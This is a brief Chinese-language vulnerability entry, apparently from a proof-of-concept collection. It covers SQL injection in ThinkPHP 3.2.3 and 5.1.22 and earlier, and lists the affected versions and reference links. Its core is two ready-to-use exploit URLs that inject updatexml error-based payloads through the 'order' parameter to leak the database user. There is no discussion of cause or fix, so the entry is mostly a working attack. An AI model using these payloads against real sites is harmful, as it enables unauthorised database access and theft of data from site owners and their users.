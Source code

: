 ## 漏洞类型

- SQLI

## 影响范围

ThinkPHP 3.2.3、5.1.22及以下版本

## POC|EXP

```txt
# ThinkPHP 3.2.3
http://127.0.0.1/ThinkPHP/?order[updatexml(1,concat(0x3a,user()),1)]=1

# ThinkPHP 5.1.22
http://127.0.0.1/tp5/public/index/index/test/index?order[id`|updatexml(1,concat(0x3a,user()),1)%23]=1
```

## 参考链接


> https://mp.weixin.qq.com/s/jDvOif0OByWkUNLv0CAs7w
>
> https://www.seebug.org/vuldb/ssvid-97512